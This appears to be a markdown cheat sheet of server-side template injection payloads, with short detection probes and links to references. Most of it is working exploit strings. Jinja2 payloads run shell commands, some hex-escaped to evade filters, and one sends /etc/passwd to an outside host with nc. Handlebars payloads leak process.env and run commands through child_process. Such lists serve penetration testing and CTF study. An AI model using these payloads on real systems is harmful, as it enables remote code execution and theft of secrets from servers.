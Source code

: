 # Template Injection
https://portswigger.net/web-security/server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
## Detect
To detect template injection start with following
```
{{7*'7'}
{{7*'7'}}
```
https://portswigger.net/web-security/images/template-decision-tree.png

## Exploitation
### Jinja2
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

```python
{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']()}}
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

# Reverse shell with Jinja2 injection
{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /etc/passwd | nc HOSTNAME 1337')['read']() == 'chiv' %} a {% endif %}
```
### handlebars
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit

https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md#handlebars
```
{{#with this as |obj|}}
    {{#with (obj.constructor.keys "1") as |arr|}}
        {{#with obj.constructor.name as |str|}}
            {{#blockHelperMissing str.toString}}
              {{#with (arr.constructor (str.toString.bind "return JSON.stringify(process.env);"))}}
                  {{#with (obj.constructor.getOwnPropertyDescriptor this 0)}}
                      {{#with (obj.constructor.defineProperty obj.constructor.prototype "toString" this)}}
                          {{#with (obj.constructor.constructor "test")}}
                            {{this}}
                          {{/with}}
                      {{/with}}
                  {{/with}}
              {{/with}}
            {{/blockHelperMissing}}
        {{/with}}
  {{/with}}
{{/with}}
```
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
